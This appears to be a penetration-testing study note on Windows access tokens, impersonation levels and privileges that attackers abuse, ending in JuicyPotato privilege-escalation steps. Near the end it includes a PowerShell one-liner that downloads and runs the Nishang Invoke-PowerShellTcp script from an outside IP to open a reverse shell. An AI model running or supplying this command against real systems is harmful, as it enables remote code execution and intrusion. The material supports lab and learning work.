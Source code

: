 - This access token consists of:

	- user SIDs(security identifier)
	- group SIDs
	- privileges

	Amongst other things. More detailed information can be found [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens).

- There are two types of access tokens:

	- primary access tokens: those associated with a user account that are generated on log on
	- impersonation tokens: these allow a particular process(or thread in a process) to gain access to resources using the token of another (user/client) process

- For an impersonation token, there are different levels:

	- SecurityAnonymous: current user/client cannot impersonate another user/client
	- SecurityIdentification: current user/client can get the identity and privileges of a client, but cannot impersonate the client
	- SecurityImpersonation: current user/client can impersonate the client's security context on the local system
	- SecurityDelegation: current user/client can impersonate the client's security context on a remote system

	Where the security context is a data structure that contains users' relevant security information.

- The privileges of an account(which are either given to the account when created or inherited from a group) allow a user to carry out particular actions. Here are the most commonly abused privileges:

	- SeImpersonatePrivilege
	- SeAssignPrimaryPrivilege
	- SeTcbPrivilege
	- SeBackupPrivilege
	- SeRestorePrivilege
	- SeCreateTokenPrivilege
	- SeLoadDriverPrivilege
	    - https://phantominfosec.wordpress.com/2020/07/01/htb-fuse-walkthrough/
	    - https://github.com/mach1el/htb-scripts
	    - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/privileged-accounts-and-token-privileges
	- SeTakeOwnershipPrivilege
	- SeDebugPrivilege

	There's more reading [here](https://www.exploit-db.com/papers/42556).

- Put Nishang reverse-shell in a folfer and start the web server.
- Create a .bat file and upload it to the target machine

		powershell "iex (New-Object Net.WebClient).DownloadString('http://10.9.152.109/Invoke-PowerShellTcp.ps1')";Invoke-PowerShellTcp -Reverse -IPAddress 10.9.152.109 -Port 2222

- Upload juicypotato.exe on the target machine
https://github.com/ohpe/juicy-potato/releases

- Upload the `.bat` file on the target machine

